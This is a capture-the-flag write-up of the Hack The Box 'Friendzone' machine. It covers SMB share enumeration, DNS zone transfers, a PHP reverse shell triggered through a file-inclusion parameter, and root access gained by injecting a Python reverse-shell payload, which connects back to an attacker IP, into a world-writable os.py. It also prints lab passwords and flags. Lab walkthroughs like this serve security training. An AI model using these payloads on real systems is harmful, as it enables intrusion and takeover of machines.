 ```yaml
---
layout: post
title:  "HTB Friendzone Linux"
description : 
tags: 
---
```


# HTB Friendzone



# Recon
Nmap Scan
```ruby
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-07 11:49 EST
Nmap scan report for 10.10.10.123
Host is up (0.023s latency).
Not shown: 993 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
53/tcp open domain
80/tcp open http
139/tcp open netbios-ssn
443/tcp open https
445/tcp open microsoft-ds
```

```ruby
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-07 11:53 EST
Nmap scan report for 10.10.10.123
Host is up (0.025s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp open domain ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.29:
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open ssl/http Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.29:
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
SMBMAP SCAN
```ruby
smbmap -H 10.10.10.123
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445 Name: 10.10.10.123
Disk Permissions
---- -----------
print$ NO ACCESS
Files NO ACCESS
general READ ONLY
Development READ, WRITE
IPC$ NO ACCESS
```
SMBMAP recursible SCAN
```ruby
smbmap -H 10.10.10.123 -R --depth 5
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445 Name: 10.10.10.123 
2/3
Disk Permissions
---- -----------
print$ NO ACCESS
Files NO ACCESS
general READ ONLY
.\
dr--r--r-- 0 Wed Jan 16 15:10:51 2019 .
dr--r--r-- 0 Wed Jan 23 16:51:02 2019 ..
-r--r--r-- 57 Tue Oct 9 19:52:42 2018 creds.txt
Development READ, WRITE
.\
IPC$ NO ACCESS
```

# Privilege Escalation

We use smbclient to donwload the creds.txt file to our machine
```ruby
smbclient //10.10.10.123/general
```
We obtain a passwd "admin:WORKWORKHhallelujah@#"
We add "friendzoneportal.red" and "friendzone.red" to our host file as the lading page
suggest to another domain and our nmap hints the same on port 445.
We locate and interesting directory "https://friendzone.red/js/js/" at first I though it
was some kind of passwd but after refreshing the page we notcied that the code change..likely
the page is running php and not static html.
At this point, our most likely path is the dns domain references..lets do a zone transfer
on our target machine

```ruby
dig axfr @10.10.10.123 friendzone.red
dig axfr @10.10.10.123 friendzoneportal.red
```

We save the info to a dns.txt file and we clean the output
```ruby
cat host.txt | grep friendzone | grep IN | cut -f 1 -d "6" | uniq > dns.txt
friendzoneportal.red
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
friendzoneportal.red
friendzone.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
friendzone.red
```

The only useful address were "uploads.friendzone.red" and "administrator1.friendzone.red"
We upload a reverse shell on "uploads" but we dont get to see where IF the file was uploaded.
we only get a timestamp
the "admin" portal give us a hint about how to search for image files
"image_id=a.jpg&pagename=timestamp" but not luck there
After poking for awhile I realized that can upload our shell using smbclient on the
directory "/etc/Development/
and call our shell from "image_id=a.jpg&pagename=/etc/Development/reverseshell"
We located the passwd for user friend on "/var/www/mysql_data.conf" and we SSH into it

```ruby
for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
3/3
```
We run LinuxEnum script with **-t 1** one more time and we got our potential escalation
path
```ruby
[-] World-writable files (excluding /proc and /sys):
-rwxrw-rw- 1 nobody nogroup 5493 Nov 7 22:10 /etc/Development/reverseshell.php
-rwxrwxrwx 1 root root 25910 Jan 15 2019 /usr/lib/python2.7/os.py
```

so we modifed the **os.py** file and add
```ruby
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.25",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
and boom we get root!
# FLAGS
```ruby
ROOT  "b0e6c60b82cf96e9855ac1656a9e90c7"
USER  "a9ed20acecd6c5b6b52f474e15ae9a11"
```


